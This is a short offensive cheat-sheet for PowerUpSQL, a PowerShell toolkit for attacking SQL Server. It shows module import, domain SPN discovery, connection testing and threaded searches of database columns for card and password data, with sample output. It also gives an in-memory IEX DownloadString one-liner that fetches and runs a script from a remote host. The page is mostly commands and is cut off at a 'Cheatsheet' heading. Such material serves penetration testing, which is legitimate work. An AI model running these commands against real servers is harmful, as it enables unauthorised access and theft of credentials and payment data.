 # PowerUpSQL

PowerUpSQL: A PowerShell Toolkit for Attacking SQL Server 

Link: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 

Example: 

```text
PS /opt/PowerUpSQL> Import-Module .\PowerUpSQL.psd1  
PS /opt/PowerUpSQL> Get-SQLInstanceDomain -Verbose 
VERBOSE: Grabbing SPNs from the domain for SQL Servers (MSSQL*)... 
VERBOSE: 0 SPNs found. 
VERBOSE: Parsing SQL Server instances from SPNs... 
VERBOSE: 0 instances were found. 
```

Or load into memory

```text
IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.0.1/PowerUpSQL.ps1")
```

## Commands:

### Find information on local server

`PS C:>Get-SQLInstanceLocal | Get-SQLServerInfo`

Test Connection to a server

`Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose –Threads 1`0

`Search data in SQL instance:`

```text
PS C:\> Get-SQLInstanceLocal | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” 

ComputerName   Instance                   Database Schema Table    Column Sample           RowCount IsCC
------------   --------                   -------- ------ -----    ------ ------           -------- ----
SQLServer1     SQLServer1\STANDARDDEV2014 testdb   dbo    tracking card   4111111111111111 2        True
SQLServer1     SQLServer1\STANDARDDEV2014 testdb   dbo    tracking card   41111111111ASDFD 2        False

```

## Cheatsheet

### SQL Server Discovery Cheats
